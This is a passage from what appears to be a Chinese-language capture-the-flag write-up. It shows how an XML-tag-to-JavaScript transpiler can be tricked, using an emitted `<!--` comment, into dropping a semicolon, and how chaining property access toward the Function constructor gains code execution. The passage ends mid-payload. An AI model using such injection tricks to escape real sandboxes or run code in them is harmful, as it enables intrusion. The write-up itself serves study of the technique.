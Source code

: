 ``` html
<x-program>
    <x-lt>
        <x-str>a</x-str>
        <x-not>
            <x-dec>
                <x-identifier>1</x-identifier>
            </x-dec>
        </x-not>
    </x-lt>
</x-program>
```

就會翻譯成：

``` js
"a"<!--$1$;
```

最後的分號會被弄掉，於是可以結合下一行的 `[]` 變成存取屬性，像這樣：

```html
<x-program>
    <x-const>
        <x-identifier>a</x-identifier>
        <x-lt>
            <x-str>x</x-str>
            
            <x-not><x-dec>
                <x-identifier>asd</x-identifier>
            </x-dec></x-not>
        </x-lt>        
    </x-const>
    <x-array>
        <x-str>toString</x-str>
    </x-array>
</x-program>
```

會翻譯成：

``` js
const write = (s) => alert(s);
const read = (s) => prompt(s);

const $a$="x"<!--$asd$;
["toString"];
```

也就是 `const $a$="x"["toString"]`

做到這邊好就簡單了，再繼續串下去拿到 function constructor 之後再呼叫即可，像這樣：

``` html
<x-program>

    <x-const>
        <x-identifier>a</x-identifier>
        <x-lt>
            <x-str>x</x-str>
            
            <x-not><x-dec>
                <x-identifier>asd</x-identifier>
            </x-dec></x-not>
        </x-lt>        
    </x-const>
    <x-array>
        <x-str>toString</x-str>
    </x-array>
```